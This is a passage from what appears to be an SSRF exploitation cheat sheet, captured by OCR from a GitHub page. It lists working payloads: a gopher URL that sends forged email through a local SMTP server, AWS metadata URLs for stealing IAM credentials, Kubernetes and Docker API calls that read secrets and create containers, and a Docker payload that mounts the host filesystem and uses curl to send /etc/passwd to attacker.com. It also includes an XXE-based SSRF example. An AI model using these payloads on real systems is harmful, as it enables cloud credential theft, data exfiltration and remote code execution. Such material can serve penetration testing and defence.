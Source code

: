     - **SMTP exploitation**
      - Send email: 
        ```
        gopher://127.0.0.1:25/_HELO%20localhost%0AMAIL%20FROM%3A%3Cattacker%40example.com%3E%0ARCPT%20TO%3A%3Cvictim%40example.com%3E%0ADATA%0AFrom%3A%20%5BHacked%5D%20%3Csystem%40example.com%3E%0ATo%3A%20%3Cvictim%40example.com%3E%0ADate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%0ASubject%3A%20SSRF%20Email%20Test%0A%0AThis%20email%20was%20sent%20using%20SSRF%0A%0A%0A.%0AQUIT
        ```
    
    - **Exploiting AWS metadata service**
      - Fetch IAM credentials:
        ```
        http://169.254.169.254/latest/meta-data/iam/security-credentials/
        http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME
        ```
      - Using obtained credentials to access AWS resources
    
    - **Exploiting Kubernetes API server**
      - Access secrets: `https://kubernetes.default.svc/api/v1/namespaces/default/secrets`
      - Create pod: `POST https://kubernetes.default.svc/api/v1/namespaces/default/pods`
    
    - **Exploiting Docker API**
      - List containers: `http://localhost:2375/containers/json`
      - Create container: `POST http://localhost:2375/containers/create`
      - Example of RCE via container creation:
        ```
        POST http://localhost:2375/containers/create HTTP/1.1
        Content-Type: application/json

        {
          "Image":"alpine",
          "Cmd":["/bin/sh", "-c", "curl -X POST -d \"$(cat /etc/passwd)\" https://attacker.com"],
          "HostConfig":{
            "Binds": ["/:/hostfs"]
          }
        }
        ```

  - **Chaining SSRF with other vulnerabilities**
    
    - **SSRF + XXE**
      - Use XXE to trigger SSRF requests
      - Example:
        ```xml
        <!DOCTYPE data [
          <!ENTITY xxe SYSTEM "http://internal-service/admin">
        ]>
        <data>&xxe;</data>
        ```
    
    - **SSRF + CSRF**
      - Use SSRF to bypass same-origin policy and forge requests to internal services
      - Example: Host a page that triggers SSRF, then use the server as a proxy to attack internal services
    